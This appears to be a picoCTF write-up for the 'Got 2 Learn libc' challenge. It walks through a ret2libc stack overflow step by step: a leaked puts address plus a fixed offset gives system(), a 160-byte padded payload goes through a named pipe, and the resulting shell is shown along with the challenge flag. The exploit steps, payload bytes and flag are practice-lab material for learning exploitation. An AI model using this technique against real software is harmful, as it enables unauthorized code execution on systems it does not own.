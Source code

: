 # Got 2 Learn libc

This program gives you the address of some system calls. Can you get a shell? You can find the program in /problems/got-2-learn-libc_3_6e9881e9ff61c814aafaf92921e88e33 on the shell server.


## Solution
The solution to this problem is `ret2libc`. Return to libc is a technique of redirecting code execution to a well known function in libc. For this particular problem I decided to return to the `system` function to get a shell.


### How does it work?
The binary gives us a set of addresses of `libc` functions:

```
$ ./vuln
Here are some useful addresses:

puts: 0xf6a43890
fflush 0xf6a419f0
read: 0xf6abb3e0
write: 0xf6abb450
useful_string: 0x5c9ae030

Enter a string:
```

The two addresses that I decided to use from this output was `puts` function address and the `useful_string` address. The `useful_string` address points to the string `/bin/sh`.


**NOTE: I discovered that the offset between the `puts` function and the `system` function, in libc, is the same regardless of ASLR.**

I wrote a `C` program to give me the offset amount:

```
$ ./libc_addr
puts:           0xec742890
system:         0xec71d850
offset:         -151616
new_ptr:        0xec71d850
```

#### Generating the Shellcode
Using the `puts` function pointer and the useful_string address from running `./vuln` and the offset from running `./libc_addr`, we craft an input string that results in the following stack state:

```
|-----------------| <-- ebp+20
| \n\0\0\0        |
|-----------------| <-- ebp+16
| useful_str_addr |             (this is the first argument for system)
|-----------------| <-- ebp+12
| puts_addr       |             (this is the return address for the libc system function call)
|-----------------| <-- ebp+8
| system_addr     |             (this is calculated: system_addr = puts_addr + offset)
|-----------------| <-- ebp+4
|                 |
| AAAAAAAA....    |
| AAAAAAAAAAAAA   |             (There is 160 bytes between the input buffer and the return address)
|                 |
|-----------------| <-- ebp-156
```

In the diagram, we have effectively created a [call stack](https://en.wikipedia.org/wiki/Call_stack) for the libc `system` function.


#### Why use `mkfifo`
Since the `./vuln` binary is using [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization), and we need to compute the address for the libc `system` function, we need a way to send bytes to the `stdin` of `./vuln` from `./generate_shellcode.py`.

We do this by using [named pipes](https://en.wikipedia.org/wiki/Named_pipe).

We `cat` the data from a named pipe called `named_pipe`  into `./vuln`. That way the input for `./vuln` is whatever that is written to `named_pipe`. To write bytes to `named_pipe`, we write to the file in `./generate_shellcode.py`.


## Exploit
To execute this exploit we will need three terminal windows:

#### Terminal Window 1
Execute `./exploit_run_vuln.sh`. This will create the named pipe called `named_pipe`.

```
$ ./exploit_run_vuln.sh 
Here are some useful addresses:

puts: 0xea762890
fflush 0xea7609f0
read: 0xea7da3e0
write: 0xea7da450
useful_string: 0x5e2c1030

Enter a string:
```

**Note: We will use the `puts` and `useful_string` address in terminal window 3**


### Terminal Window 2
Execute `cat > named_pipe`. This will keep the stdin open for `./vuln`, which is being execute in `exploit_run_vuln.sh`.

```
$ cat > named_pipe 

```

**Note: This terminal will be used to send commands to the shell once we get ourself a shell in terminal window 1**


### Terminal Window 3
Execute `./libc_addr` to get the offset.

```
$ ./libc_addr 
puts:           0xf0d40890
system:         0xf0d1b850
offset:         -151616
new_ptr:        0xf0d1b850
```


Execute `./generate_shellcode.py` and enter the `offset` from above.

```
$ ./generate_shellcode.py 
offset: -151616
```

Now enter the `puts` address from terminal window 1.

```
 $ ./generate_shellcode.py                                                                               
 offset: -151616
 vuln_puts: 0xf0d40890
 vuln_func: 0xf0d1b850
 ```

 **Notice that the `vulc_func` pointer was calcuated and printed**

 Now enter the `useful_string` address from terminal window 1.

```
$ ./generate_shellcode.py 
offset: -151616
vuln_puts: 0xf0d40890
vuln_func: 0xf0d1b850
useful_str: 0x5e2c1030
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAP\xb8\xd1\xf0\x90\x08\xd4\xf00\x10,^\n\x00\x00\x00'
```

**Notice that the shellcode is printed (for debugging) and also written to the `named_pipe`**


### Back in Terminal Window 2
Now we have shell in terminal window 1. We could send commands to it by writing to `cat > named_pipe`.

```
$ cat > named_pipe 
id
cat flag.txt
```

### The Shell in Terminal Window 1

```
Here are some useful addresses:

puts: 0xea762890
fflush 0xea7609f0
read: 0xea7da3e0
write: 0xea7da450
useful_string: 0x5e2c1030

Enter a string:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAPx���Ȇ�0`�W
Thanks! Exiting now...
uid=1000(picoctf) gid=1000(picoctf) groups=1000(picoctf)
picoCTF{syc4al1s_4rE_uS3fUl_6319ec91}
```

